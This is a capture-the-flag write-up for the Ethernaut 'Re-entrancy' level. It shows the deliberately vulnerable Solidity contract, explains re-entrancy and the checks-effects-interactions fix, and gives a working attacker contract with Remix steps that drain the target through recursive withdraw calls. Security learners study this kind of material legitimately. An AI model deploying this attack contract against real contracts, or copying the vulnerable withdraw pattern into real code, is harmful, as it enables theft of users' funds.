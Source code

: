 # 10 Re-entrancy

```
The goal of this level is for you to steal all the funds from the contract.

  Things that might help:

Untrusted contracts can execute code where you least expect it.
Fallback methods
Throw/revert bubbling
Sometimes the best way to attack a contract is with another contract.
See the Help page above, section "Beyond the console"
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}

```

#### Start 


### (1) ` steal all the funds from the contract `
First of all, we need to know Re-entrancy 

#### Re-entrancy 

Re-entrancy  attack occurs when a function makes an external call to another untrusted contract. Then the untrusted contract makes a recursive call back to the original function in an attempt to drain funds.


When the contract fails to update its state before sending funds, the attacker can continuously call the withdraw function to drain the contract’s funds

#### How to prevent

Pattern for protecting smart contracts from re-entrancy attacks


 `[CHECKS - EFFECTS(chaining state) - INTERACTIONS]`
####  Example code protecting smart contracts from re-entrancy attacks
```
contract Reentrancy  {  
    mapping(address  => uint256) balance;

    function withdraw() public {
        require(balance[msg.sender] > 0); // CHECKS
        uint256 toTransfer = balance[msg.sender];
        balance[msg.sender] = 0; // EFFECTS (chaining state)
        (bool success,) = msg.sender.call{value: toTransfer}("");  // INTERACTIONS 
        if(!success){
            balance[msg.sender] = toTransfer;
        }
    }

}
```

Now let's look at the code that ethernaut gave us



When we look at the code, we can see that the `withdraw(uint _amount) public`  function is a target we have to attack because it is used to withdraw money



As we know, if a contract external call to another untrusted contract without writing a pattern 

`[CHECKS - EFFECTS(chaining state) - INTERACTIONS] `

it can do a recursive call back to withdraw again and again steal all the funds from the contract

How do we do 

.


.

.




#### This is the code I used to attack contract Reentrance  
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Reentrance {
	function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}


contract atkReentrance {

   Reentrance public target ;
   uint256 public amount ;
  constructor(address _addressReentrance) {
     target = Reentrance(_addressReentrance);
   }
   

    function callDonate() public payable
    {
      target.donate{value: msg.value}(address(this));
      amount = msg.value;
    }

    function callWithdraw() public
    { 
      target.withdraw(amount);
    }

    function sendFundBack() public
    {
      selfdestruct(payable(msg.sender));
    }

     receive() external payable {
        if (address(target).balance != 0 ) {
        target.withdraw(amount); 
            }
    }
}
```
- `function callDonate() public payable`

    This function used to call fucntion `donate()` in contract Reentrance

- `function callWithdraw() public `

    This function used to call fucntion `withdraw()` in contract Reentrance

- `function sendFundBack() public`

    This function used to when an attacker steals all the funds from contract Reentrance then `selfdestruct()` and sends the money back

- `receive() external payable`

    This function will recursive callback to function `withdraw()` again and again until fund in contract = 0


Use the remix deploy contract `atkReentrance`

 - (1) Before we can call the function `withdraw()` , we need to pass a condition. 
 
   `if(balances[msg.sender] >= _amount)`  So we must call the function ` function callDonate() public payable `
   
    and send some ether.

 - (2) then we call the function `function callWithdraw() public` to initiate the re-entrancy attack

 - (3) When first Withdraw is started, the section code `(bool result,) = msg.sender.call{value:_amount}("");` 
 
    will send money to our contract and will trigger fucntion `receive() external payable` in our contact 
    
    and will loop call fucntion `withdraw()` until funds in contract is 0 to stop

    #### ***You may need to increase the gas limit if the transaction fails.

-  (4) call the `function sendFundBack() public` Return all stolen money to us
  


Click button Submit instance and confirm transaction

# !!! we passed !!!


